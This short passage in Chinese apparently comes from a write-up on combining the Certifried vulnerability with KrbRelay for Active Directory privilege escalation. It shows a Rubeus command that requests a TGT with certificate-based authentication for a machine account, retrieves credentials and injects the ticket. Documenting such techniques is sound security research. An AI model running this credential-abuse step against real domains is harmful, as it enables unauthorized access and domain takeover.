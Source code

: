 ![](/assets/posts/2022-05-19-certifried-combined-with-krbrelay-for-domain-privilege-escalation/image-20220519015118242.png)

KrbRelay 执行的末尾提供了后续的 Rubeus 命令，使用该命令可以使用基于证书的身份验证请求 TGT 票据，如下图所示。

```console
C:\Users\Marcus\Desktop> Rubeus.exe asktgt /user:WIN10-CLIENT1$ /certificate:<Base64Certificate> /password:"1d280ec2-5ee9-4e26-b472-2b1af024f336" /getcredentials /show /ptt
```

